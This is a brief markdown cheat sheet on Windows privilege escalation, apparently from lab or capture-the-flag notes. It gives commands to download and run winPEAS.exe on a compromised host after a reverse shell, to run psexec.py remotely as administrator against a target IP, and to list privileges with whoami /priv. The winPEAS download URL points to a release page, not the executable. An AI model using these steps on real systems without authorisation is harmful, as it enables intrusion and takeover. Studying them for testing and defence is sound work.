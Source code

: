 There are several tools that can help us escalate privileges on Windows machines.

- [winPEAS.exe](#wpeas)
- [psexec.py](#pspy)


# winPEAS.exe <a name="wpeas"></a>

winPEAS.exe is an executable that, once we have a reverse shell, will display files with possible critical information in red.

Example:

1. First, download it using PowerShell:
````bash
wget https://github.com/carlospolop/PEASS-ng/releases/tag/20231002-59c6f6e6
````
2.  Switch to PowerShell in your terminal: 
````bash
powershell
````
3. Finally, execute winPEAS.exe:
````bash
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
````



# psexec.py <a name="pspy"></a>
**psexec.py** is a tool that allows you to remotely execute processes on other systems over a network.

````bash
python3 psexec.py administrator@{TARGET_IP}
````

# whoami
When you run `whoami /priv`, you will receive a list of the privileges assigned to your user account, along with their status (enabled or disabled). The output typically includes:

- **Privilege Name**: A brief description of each privilege.
- **State**: Indicates whether the privilege is enabled (Enabled) or disabled (Disabled).
### Example of Usage
```bash
whoami /priv
```
The output might look something like this:
```bash
PRIVILEGES INFORMATION
-----------------------
Privilege Name                    State
===========================================
SeShutdownPrivilege                Enabled
SeBackupPrivilege                  Enabled
SeRestorePrivilege                 Disabled
SeChangeNotifyPrivilege            Enabled
SeTakeOwnershipPrivilege           Enabled
```
